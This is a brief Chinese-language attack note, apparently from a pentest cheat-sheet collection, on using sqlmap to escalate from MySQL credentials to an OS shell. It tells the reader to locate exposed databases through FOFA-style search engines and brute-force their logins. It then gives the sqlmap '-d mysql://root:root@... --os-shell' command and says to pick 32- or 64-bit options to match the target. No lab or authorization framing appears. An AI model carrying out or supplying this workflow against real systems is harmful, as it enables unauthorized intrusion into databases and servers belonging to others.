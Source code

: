 # sqlmap提权

用途：在fofa类搜索到目标数据库且爆破用户名密码，可以直接用sqlmap提权

```
sqlmap -d mysql://root:root@172.16.12.2:3306/mysql --os-shell
```



![image-20210824182034482](sqlmap提权mysql\image-20210824182034482.png)

按照目标sql的位数选择

32位选择 32位   64位选择32和64的都可以

![image-20210824182219972](sqlmap提权mysql\image-20210824182219972.png)

